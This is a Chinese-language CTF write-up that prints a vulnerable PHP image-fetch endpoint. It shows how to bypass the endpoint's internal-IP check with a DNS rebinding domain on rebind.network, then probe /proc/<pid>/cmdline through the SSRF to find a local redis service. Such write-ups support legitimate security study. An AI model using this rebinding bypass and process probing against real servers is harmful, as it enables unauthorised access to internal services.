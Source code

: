 ```php=
<?php
if ($url = @$_POST['url'])) {
    if ($hostname = parse_url($url)['host']) {
        $ip = gethostbyname($hostname);
        $ip_part = explode(".", $ip);
        if (count($ip_part) !== 4 || in_array($ip_part[0], ['192', '172', '10', '127']))
            die("Invalid hostname.");
    }

    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
    $b64_img = base64_encode(curl_exec($ch));
    echo curl_error($ch) ? curl_error($ch) : "<img src=\"data:image/jpeg;base64,$b64_img\">";
    curl_close($ch);
}
...
```
看到第 6 行：
```php
if (count($ip_part) !== 4 || in_array($ip_part[0], ['192', '172', '10', '127']))
```
它會檢查 IP 是否為內網或 localhost。乍看之下無從可解。不過，第 16 行又帶來曙光：
```php
curl_setopt($ch, CURLOPT_URL, $url);
```
這裡，我們可以看到它使用的不是 `$ip` 而是 `$url`，因此它又會去戳 name server 而多解析一次。於是，我們可以用 DNS rebinding attack 去讓 server 前後解析出不同的 IP。如果第一次解析出隨變一個 public IP，第二次解析出 127.0.0.1，那我們就可以繞過 IP 的限制訪問 localhost。`rebind.network` 提共了一個 poc 的 DNS server 給我們使用 DNS rebinding 攻擊。我使用的 domain 是：
```
a.54.248.150.115.1time.127.0.0.1.1times.repeat.rebind.network
```
這樣有一半的機率會解析到 54.248.150.115，一半會解析到 127.0.0.1。

DNS rebinding 的部分做完了。接下來，我想看看哪些服務是開啟的。想看哪些服務是開啟的方法是爆搜 pid 偷看 `proc/<pid>/cmdline` ，這樣可以看一些常駐服務的 command。爆搜法很麻煩，因此寫成 script。參閱 `brute_force_services.php`。使用方法如下：
```bash
php brute_force_services.php
```
結果：
```
int(1)
string(18) "/bin/sh/start.sh"
int(14)
string(44) "/usr/bin/redis-server 127.0.0.1:27134"
int(15)
string(21) "apache2-DFOREGROUND"
int(16)
string(44) "/usr/bin/redis-server 127.0.0.1:27134"
int(17)
string(44) "/usr/bin/redis-server 127.0.0.1:27134"
int(18)
string(44) "/usr/bin/redis-server 127.0.0.1:27134"
int(29)
string(21) "apache2-DFOREGROUND"
int(31)
string(21) "apache2-DFOREGROUND"
int(33)
string(21) "apache2-DFOREGROUND"
...
```
redis 似乎是開啟的。
